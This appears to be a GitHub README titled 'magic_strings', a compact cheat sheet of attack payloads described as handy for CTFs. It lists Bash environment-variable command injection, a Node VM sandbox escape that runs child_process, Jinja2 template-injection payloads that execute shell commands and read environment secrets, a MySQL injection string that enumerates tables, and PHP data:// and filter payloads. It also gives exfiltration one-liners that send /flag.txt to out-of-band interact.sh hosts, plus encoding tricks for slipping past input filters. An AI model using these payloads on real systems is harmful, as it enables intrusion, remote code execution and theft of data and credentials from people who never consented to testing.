 # magic_strings
Handy bits for CTFs and life

### Bash 

#### ENV Vars
    BASH_ENV='$(id 1>&2)' bash -c 'echo hello'

    env $'BASH_FUNC_myfunc%%=() { id; }' bash -c 'myfunc'

#### Encoding

    $'\151\144'

### NodeJS

#### Node VM

Escape Node VM Sandbox

    this.constructor.constructor("return this.process")().mainModule.require("child_process").execSync("id").toString()

### Python

#### Jinja2 / Template Injection

    {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
    {{config.__class__.__init__.__globals__['os'].environ}}

### MySQL 

MySQL >=5.6

    concat(0x404f73616e64614d616c6974680a, @@innodb_version ,0x0a,user(),0x0a, schema(), (select (@x) from (select (@x:=0x00), (@number:=0),(select (0) from (mysql.innodb_table_stats) where (@x:=concat(@x,0x0a,lpad(@number:=@number+1,2,0),0x2e20,database_name, 0x202d3e20 ,table_name,0x202d3e20 ,length(table_name)))))x))

### PHP

    data://data:text/plain,<?php system("id")?>
    
    php://filter/convert.base64-encode/resource=index.php

### Exfiltrate

    curl -T /flag.txt xxxx.interct.sh
    ping here.xxx.interact.sh
    nc nchere.xxx.interact.sh 80
    dig dighere.xxx.interact.sh
    git clone githere.xxx.interact.sh
    
### Bypass

#### utf8 normalization

  " 	%C0%A2 	%E0%80%A2 	%F0%80%80%A2 	Double quote 	
  ' 	%C0%A7 	%E0%80%A7 	%F0%80%80%A7 	Single quote 	
  < 	%C0%BC 	%E0%80%BC 	%F0%80%80%BC 	Less-than sign 	
  > 	%C0%BE 	%E0%80%BE 	%F0%80%80%BE 	Greater-than sign 	
  . 	%c0%2e %C0%AE 	%E0%80%AE 	%F0%80%80%AE 	Full stop 	
  / 	%c0%2f %C0%AF 	%E0%80%AF 	%F0%80%80%AF 	Solidus 	
  \ 	%c0%5c %C1%9C %c0%80%5c %E0%81%9C 	%F0%80%81%9C 	Reverse solidus

## Resources

- [Payloads All The Things]( https://github.com/swisskyrepo/PayloadsAllTheThings/ )
- [Reverse Shells Generator]( https://www.revshells.com/ )
- [De Obfuscate JS]( https://lelinhtinh.github.io/de4js/ )
- [XSS Cheat sheet]( https://portswigger.net/web-security/cross-site-scripting/cheat-sheet )
- [HackTricks]( https://book.hacktricks.xyz )
- [Compile Online]( https://rextester.com/ )
